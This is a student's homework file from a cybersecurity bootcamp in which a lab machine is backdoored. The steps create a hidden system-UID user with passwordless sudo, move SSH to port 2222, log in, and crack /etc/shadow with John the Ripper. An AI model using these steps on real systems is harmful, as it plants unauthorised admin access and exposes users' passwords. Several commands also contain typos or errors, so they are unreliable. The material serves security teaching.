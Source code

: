 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
   
    - `adduser sysd`

    

2. Give your secret user a password: 
   
    - `cybersecurity`

3. Give your secret user a system UID < 1000:
  
    - `nano etc/passwd`
        
       - change UID value to 468`

4. Give your secret user the same GID:
  
   - `nano etc/passwd`
       
        - change GID value to 468


5. Give your secret user full `sudo` access without the need for a password:
   -  
   `nano etc/sudoers`
        
        -enter under user pivilege specification
            
`sysd    ALL=(ALL:ALL) NOPASSWRD:ALL `

6. Test that `sudo` access works without your password:
   
    `sudo nano etc/sudoers`
   

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

`sudo nano /etc/ssh/sshd.config`

     - uncomment and adjust the line "port22"

    port 2222
    

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    
    - `sudo systemctl restart ssh.service
    `

2. Exit the `root` account:
    - 
    `su sysd`
        `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
   
    sudo -s
    - `cd /etc
        john shadow`
 
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

